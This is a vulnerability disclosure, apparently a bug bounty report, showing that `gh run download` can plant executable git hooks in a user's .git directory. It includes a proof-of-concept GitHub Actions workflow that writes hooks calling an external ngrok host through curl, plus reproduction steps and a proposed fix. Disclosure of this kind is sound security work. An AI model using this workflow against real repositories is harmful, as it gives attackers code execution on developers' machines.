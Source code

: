 # CLI: implementation of `gh run download` command allows creating local git hooks leading to code execution on user device

Hi there!

https://github.com/Metnew

## Dev

```
git clone https://github.com/Metnew/gh_run_download_git_artifacts ./poc
cd poc
gh run download
git checkout
```

## Description: 

```
USAGE
  gh run download [<run-id>] [flags]

FLAGS
  -D, --dir string         The directory to download artifacts into (default ".")
```

By default, `gh run download` command puts artifacts in the current dir. It can't overwrite files though, only create new ones. There also no restrictions on the name of the files to be written (except for the path traversal check).

It means, it's possible to craft a malicious archive of artifacts that creates new files under `<root>/.git/*` upon `gh run download`. Achieving code execution is simple in this case, we can just write git hooks to `<root>/.git/hooks/*`. 

> Or `<root>/.git/modules/<module>/hooks` if any submodule is present.

> I can't imagine someone managing to have all of possible client-side git hooks (even non-standard!) configured, so there always be a place for a malicious one (+ git-p4* hooks). 
```
applypatch-msg        pre-commit
commit-msg            pre-merge
fsmonitor-watchman    pre-merge-commit
post-applypatch       pre-push
post-checkout         pre-rebase
post-index-change     pre-receive
post-merge            prepare-commit-msg
post-rewrite          push-to-checkout
post-update           reference-transaction
pre-applypatch        sendemail-validate
pre-auto-gc           update
```

## Triggering code execution
Malicious code will be executed upon almost any porcelain git command.
`git fetch`, `pull`, `push`, `checkout`, `commit`, `merge`, `rebase`, `am` **and even on** `git add/rm`!

## Crafting a repo producing malicious artifacts
> See {f} for a poc git repo that has Github actions producing malicious artifacts.

`.github/workflows/action.yaml` produces malicious artifacts.
```
name: Crafting some malware here

on: [push]

jobs:
  build_and_test:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout repository
        uses: actions/checkout@v2
      - run: |
          rm -rf .git/*
          mkdir -p .git/hooks
          export PAYLOAD="curl https://metnew.ngrok.io"
          declare -a arr=("applypatch-msg" "pre-commit" "commit-msg" "pre-merge" "fsmonitor-watchman" "pre-merge-commit" "post-applypatch" "pre-push" "post-checkout" "pre-rebase" "post-index-change" "pre-receive" "post-merge" "prepare-commit-msg" "post-rewrite" "push-to-checkout" "post-update" "reference-transaction" "pre-applypatch" "sendemail-validate" "pre-auto-gc" "update")
          echo "$PAYLOAD"
          for i in "${arr[@]}"
          do
             echo "$PAYLOAD/$i" > ".git/hooks/$i"
             chmod +x ".git/hooks/$i"
          done
      - name: Archive production artifacts
        uses: actions/upload-artifact@v2
        with:
          name: artifacts
          path: |
            ./
```


## Steps to Reproduce:

1. Craft a malicious repository
2. `gh repo clone <you>/<repo>`
3. `gh run download 1`
4. `git add ./` OR `git fetch` OR `git checkout -b newbranch`

## How to fix?

Make `gh run download` writing in a folder if `.git` is already present OR ignore `.git/*` files if they're present in the artifacts.

## Hooks don't work - TRY hello/.git/config and /.git/modules/hello/.config
